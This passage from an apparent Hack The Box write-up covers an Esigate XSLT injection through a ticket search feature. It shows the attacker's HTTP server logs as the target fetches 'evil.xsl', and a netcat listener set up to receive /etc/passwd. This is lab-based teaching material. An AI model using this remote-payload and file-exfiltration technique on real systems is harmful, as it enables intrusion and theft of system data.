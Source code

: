 ![](../../.gitbook/assets/19-ticket.png)

After some testing I found that the vulnerability indeed existed in the ticket search function!  After submitting my "ticket" to the system searching for the ticket number caused the code in the malicious XML file to be read and executed by Esigate.

```text
zweilos@kali:~/htb/quick$ python -m SimpleHTTPServer 9088
Serving HTTP on 0.0.0.0 port 9088 ...
10.10.10.186 - - [11/Aug/2020 21:35:46] code 404, message File not found
10.10.10.186 - - [11/Aug/2020 21:35:46] "GET http://10.10.15.57:9088/evil.xsl HTTP/1.1" 404 -
10.10.10.186 - - [11/Aug/2020 21:47:27] code 404, message File not found
10.10.10.186 - - [11/Aug/2020 21:47:27] "GET http://10.10.15.57:9088/evil.xsl HTTP/1.1" 404 -
10.10.10.186 - - [11/Aug/2020 21:47:41] code 404, message File not found
10.10.10.186 - - [11/Aug/2020 21:47:41] "GET http://10.10.15.57:9088/evil.xsl HTTP/1.1" 404 -
10.10.10.186 - - [11/Aug/2020 21:47:47] code 404, message File not found
10.10.10.186 - - [11/Aug/2020 21:47:47] "GET http://10.10.15.57:9088/evil.xsl HTTP/1.1" 404 -
10.10.10.186 - - [11/Aug/2020 21:53:58] code 404, message File not found
10.10.10.186 - - [11/Aug/2020 21:53:58] "GET http://10.10.15.57:9088/evil.xsl HTTP/1.1" 404 -
10.10.10.186 - - [11/Aug/2020 21:59:59] "GET /test.xsl HTTP/1.1" 200 -
10.10.10.186 - - [11/Aug/2020 21:59:59] "GET /test.xml HTTP/1.1" 200 -
10.10.10.186 - - [11/Aug/2020 22:03:31] code 404, message File not found
10.10.10.186 - - [11/Aug/2020 22:03:31] "GET http://10.10.15.57:9088/test.xsl HTTP/1.1" 404 -
10.10.10.186 - - [11/Aug/2020 22:06:43] "GET /test1.xsl HTTP/1.1" 200 -
10.10.10.186 - - [11/Aug/2020 22:06:44] "GET /test1.xml HTTP/1.1" 200 -
```

After quite a bit of head-scratching and testing, I found that I could only use a specific filename once. After that it caused a 404 error for even files that definitely exist on my locally hosted python server. I wasn't sure what was going on but it must have been something the server was doing.

```text
zweilos@kali:~/htb/quick$ nc -lvnp 13371 > passwd
listening on [any] 13371 ...
connect to [10.10.15.57] from (UNKNOWN) [10.10.10.186] 43030
```

During some of my testing, I tried to get the server to send me `/etc/passwd`, but unfortunately the file was blank. After testing it again a different way, I concluded that this command was being blocked so nothing was being sent.  The important thing was that I could see that my test exploit worked.
